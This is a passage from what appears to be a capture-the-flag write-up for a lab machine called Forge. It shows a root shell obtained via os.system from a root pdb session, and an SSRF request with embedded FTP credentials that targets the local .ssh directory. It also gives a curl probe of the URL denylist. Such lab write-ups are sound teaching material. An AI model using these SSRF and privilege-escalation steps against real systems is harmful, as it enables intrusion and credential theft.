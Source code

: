 
One simple way to a shell from here is to use `os.system`:

    
    
    (Pdb) import os
    (Pdb) os.system('bash')
    root@forge:/home/user#
    

And grab `root.txt`:

    
    
    root@forge:~# cat root.txt
    72e7ca6f************************
    

## Beyond Root

### Filter Bypasses

#### Enumerating the Denylist

I wanted to take a closer look at the filter on the url submission, to see if
it could be bypassed, and it turned out that it’s relatively weak.

I’ll start with the URL I wanted to use to grab the SSH key:

    
    
    http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/
    

I’ll submit that URL and look at the request in Burp:

    
    
    POST /upload HTTP/1.1
    Host: forge.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:96.0) Gecko/20100101 Firefox/96.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 120
    Origin: http://forge.htb
    Connection: close
    Referer: http://forge.htb/upload
    Upgrade-Insecure-Requests: 1
    
    url=http%3A%2F%2Fadmin.forge.htb%2Fupload%3Fu%3Dftp%3A%2F%2Fuser%3Aheightofsecurity123%21%40127.0.0.1%2F.ssh%2F&remote=1
    

I’ll work with that as a `curl` request, piping into `grep` to quickly see if
it’s triggered the blacklist:

    
    
    oxdf@hacky$ curl -s -d 'url=http://admin.forge.htb/upload?u=ftp://user:heightofsecurity123!@127.0.0.1/.ssh/&remote=1' http://forge.htb/upload | grep blacklisted
                <strong>URL contains a blacklisted address!</strong>
    